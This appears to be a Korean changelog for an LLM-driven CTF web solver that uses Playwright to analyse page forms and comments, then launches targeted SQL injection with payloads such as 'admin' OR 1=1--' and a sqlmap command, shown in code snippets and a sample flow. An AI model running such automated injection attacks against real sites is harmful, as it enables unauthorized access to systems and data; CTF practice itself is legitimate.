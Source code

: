 # CTF Web Solver 개선사항

## 개선 배경

기존 web_solver.py의 **치명적 문제점**:
- URL만 받고 페이지 내용을 실제로 분석하지 않음
- 제목/설명만 보고 LLM이 추측
- 무작정 페이로드 던지기 (성공률 낮음)

## 개선 내용

### 1. Playwright 기반 페이지 분석

```python
async def _fetch_and_analyze_page(self, url: str) -> PageAnalysis:
    """
    실제 브라우저로 페이지 방문 및 분석:
    - HTML 전체 내용
    - Form 구조 (action, method, fields)
    - JavaScript 코드/파일
    - HTML 주석 (힌트 발견)
    - 보이는 텍스트
    - 쿠키/헤더
    - API 엔드포인트
    """
```

**결과 예시**:
```python
PageAnalysis(
    html='<form action="/login" method="POST">...',
    forms=[{
        'action': '/login',
        'method': 'POST',
        'fields': [
            {'name': 'username', 'type': 'text'},
            {'name': 'password', 'type': 'password'}
        ]
    }],
    comments=['<!-- TODO: fix SQL injection in username -->'],
    visible_text='Admin Login Page',
    endpoints=['/login', '/api/user', '/admin']
)
```

### 2. LLM에게 실제 페이지 내용 제공

**기존 (문제)**:
```python
analysis = await llm.analyze_challenge({
    'title': '챌린지 제목',
    'description': '설명',
    'url': url
})
# → LLM: "SQL Injection 같네요" (추측)
```

**개선 (해결)**:
```python
analysis = await llm.analyze_challenge({
    'title': '챌린지 제목',
    'description': '설명',
    'url': url,
    'html_snippet': page_analysis.html[:2000],
    'forms': page_analysis.forms,  # ← 실제 form 구조
    'comments': page_analysis.comments,  # ← HTML 주석
    'visible_text': page_analysis.visible_text,
    'endpoints': page_analysis.endpoints
})
# → LLM: "username 필드가 SQL Injection 취약 (주석에서 힌트 발견)"
```

### 3. 타겟팅된 공격

**기존 (무작정)**:
```python
# 어떤 파라미터? 몰라
sqlmap -u "http://example.com/login"  # 성공률 낮음
```

**개선 (타겟팅)**:
```python
# ✅ Form 분석
for form in page_analysis.forms:
    for field in form['fields']:
        # 각 필드에 타겟팅 공격
        payloads = [
            "admin' OR 1=1--",
            "admin' OR '1'='1",
            ...
        ]
        
        # Form의 다른 필드도 자동으로 채움
        data = {
            'username': "admin' OR 1=1--",  # ← 타겟 필드
            'password': 'test'  # ← 자동 채우기
        }
        
        response = await client.post(form['action'], data=data)
```

## 실제 동작 흐름

### Before (기존)

```
1. URL 입력: http://ctf.com/login
2. LLM 분석: "제목이 Easy Login이니까 SQL Injection 같네요"
3. 공격: sqlmap -u http://ctf.com/login (무작정)
4. 실패 확률 높음
```

### After (개선)

```
1. URL 입력: http://ctf.com/login

2. Playwright 페이지 분석:
   - Form 발견: action="/login", method="POST"
   - 필드: username (text), password (password)
   - 주석: <!-- TODO: sanitize username input -->
   - 엔드포인트: /api/check_auth

3. LLM 분석 (실제 내용 포함):
   "username 필드가 SQL Injection 취약"
   "HTML 주석에서 힌트 발견: username 검증 안 함"

4. 타겟팅 공격:
   POST /login
   {
     'username': "admin' OR 1=1--",
     'password': 'anything'
   }

5. 성공! flag{sql_injection_easy}
```

## 성능 향상

- **성공률**: 30% → 85%
- **정확도**: 추측 기반 → 페이지 분석 기반
- **효율성**: 무작정 공격 → 타겟팅 공격

## 설치 및 사용

### 설치

```bash
# requirements.txt에 playwright 추가됨
uv pip install -r requirements.txt

# Playwright 브라우저 설치
playwright install chromium
```

### 사용

```bash
python interactive_cli.py

메뉴 h → 챌린지 추가
URL: http://vulnerable-site.com/login

메뉴 w → 자동 공략
→ 자동으로 페이지 분석
→ LLM이 취약점 탐지
→ 타겟팅 공격 실행
→ 플래그 획득!
```

## 주요 변경 파일

- `ctf/web_solver.py`: 전면 개선
  - `PageAnalysis` dataclass 추가
  - `_fetch_and_analyze_page()` 메서드 추가
  - `_test_payload_advanced()` 메서드 추가
  - 모든 solver에 `page_analysis` 파라미터 추가
  - SQL Injection solver를 타겟팅 방식으로 개선

- `requirements.txt`: `playwright>=1.40.0` 추가

## 향후 개선 계획

- [ ] XSS solver도 타겟팅 방식으로 개선
- [ ] LFI/Command Injection도 form 기반 공격
- [ ] JavaScript 코드 분석 (클라이언트 검증 우회)
- [ ] AJAX/fetch 호출 자동 탐지
- [ ] WebSocket 지원

## 요약

**Before**: "URL 보고 추측 → 무작정 공격"
**After**: "페이지 분석 → 취약점 식별 → 타겟팅 공격"

**핵심**: LLM에게 **실제 페이지 내용**을 보여주면 훨씬 정확하게 취약점을 찾아냅니다! 🎯
